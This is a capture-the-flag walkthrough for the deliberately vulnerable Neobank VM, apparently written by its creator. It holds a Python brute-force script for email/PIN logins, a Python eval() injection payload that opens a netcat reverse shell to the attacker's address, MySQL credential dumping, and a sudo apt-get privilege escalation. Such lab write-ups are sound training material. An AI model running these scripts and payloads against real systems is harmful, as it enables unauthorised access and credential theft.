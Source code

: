 ```yaml
---
layout: post
title:  "Case Study : Neobank"
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/neobank-1,642/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Neobank`

- Difficulty : Medium

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/kxbu7R75AxQ" frameborder="0" allowfullscreen></iframe>

## Directory Scan

```sh
gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

{% highlight sh %}
  /login
  /logout
  /otp
  /qr
  /withdraw
  /email_list
{% endhighlight %}

## Retreive emails

- Under the `/email_list` you can retrieve the emails

```sh
zeus@neobank.vln
hera@neobank.vln
apollo@neobank.vln
athena@neobank.vln
poseidon@neobank.vln
ares@neobank.vln
artemis@neobank.vln
demeter@neobank.vln
aphrodite@neobank.vln
dionysos@neobank.vln
hermes@neobank.vln
hephaistos@neobank.vln
```

## Brute force

- Creating the `pins` wordlist using `rockyou.txt`

```
cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt
```

- bruteforce script

{% highlight python %}
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
{% endhighlight %}

- Run it
```
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
[+] Username : zeus@neobank.vln
[+] Password : 2*****
```

## OTP google authenticator

- Scan the qrcode and insert the otp code

## Exploit eval() python function

```
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```

#### MySQL enumeration find banker credentials

{% highlight sh %}
  cat /var/www/html/main.py
  banker:neobank1
  mysql -u banker -pneobank1
  use bank;
  select * from system;
  banker:adv1se.me
{% endhighlight %}

## GTFObins

- sudo -l

{% highlight sh %}
  sudo apt-get changelog apt
  !/bin/sh
{% endhighlight %}

- This vm created by me, i enjoyed the process
